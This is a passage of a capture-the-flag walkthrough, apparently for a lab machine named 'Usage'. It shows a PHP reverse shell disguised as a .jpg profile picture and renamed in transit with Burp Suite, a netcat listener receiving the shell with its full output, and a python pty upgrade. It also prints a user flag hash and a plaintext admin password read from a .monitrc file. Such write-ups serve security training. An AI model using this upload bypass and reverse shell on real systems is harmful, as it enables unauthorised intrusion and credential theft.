 After logging in you will have to change the profile with `php-reverse-shell.php` which will be named `php.jpg`because you can't upload `.php`file as a profile picture. You will change that with `burpsuite`.
```
$ cp php-reverse-shell.php ~/Desktop/php.jpg
```
Then open port with `NetCat`:
```
nc -nlvp 1234
```
upload fake `.jpg`file as the profile with `burpsuite`and `intercept`is on, because you will modify `php.jpg`as `php.php`so it will work. then you will forward it and you will get the connection on `NetCat`.
```
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.16] from (UNKNOWN) [10.10.11.18] 53114
Linux usage 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 16:57:42 up  6:56,  0 users,  load average: 2.14, 2.25, 2.29
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(dash) gid=1000(dash) groups=1000(dash)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
dash@usage:/$
```
You will need this code to activate `bash`shell:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
After that go to `dash`home directory and you can read the `user.txt`:
**ce1eaaafca460b8c56b2c5fbc6808c3d**

After that you need to search where can `xander`-s password be located. You will get that in `dash`-s home directory and to find it you will need to list all the files with:
```
ls -all
```
there is file named: `.monitrc` where password for `xander`is located:
```
cat .monitrc
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
```